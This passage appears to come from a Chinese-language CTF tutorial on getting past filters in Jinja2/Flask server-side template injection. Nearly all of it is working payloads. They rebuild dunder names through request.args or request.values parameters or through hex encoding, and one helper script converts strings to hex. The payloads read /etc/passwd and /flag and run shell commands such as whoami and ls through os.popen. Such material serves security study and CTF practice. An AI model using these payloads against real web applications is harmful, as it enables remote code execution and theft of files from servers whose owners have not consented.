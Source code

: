 **getattr()****绕过：**

这种方法有时候由于环境问题不一定可行，会报错'getattr' is undefined，所以优先使用以上两种

```javascript
Python 3.7.8
>>> ().__class__
<class 'tuple'>
>>> getattr((),"__class__")
<class 'tuple'>
```

**过滤下划线 _**

利用 `request.args` 的属性

```
{{ ''[request**.**args**.**class][request**.**args**.**mro][2][request**.**args**.**subclasses]()[40]('/etc/passwd')**.**read() }} ---> **&**class**=**__class__**&**mro**=**__mro__**&**subclasses**=**__subclasses__
```

将其中的 `request.args` 改为 `request.values`，则利用 post 的方式进行传参。

- 编码绕过:

使用十六进制编码绕过，`_` 编码后为 `\x5f`，`.`编码后为 `\x2E`

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[376]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['popen']('whoami')['read']()}}
```

甚至可以全十六进制绕过，顺便把关键字也一起绕过，这里先给出个python脚本方便转换

```javascript
string1="__class__"
string2="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
def tohex(string):
  result = ""
  for i in range(len(string)):
      result=result+"\\x"+hex(ord(string[i]))[2:]
  print(result)

tohex(string1) #\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f
print(string2) #__class__
{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("whoami")["\x72\x65\x61\x64"]()}}
```

- 利用request对象绕过:

```javascript
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

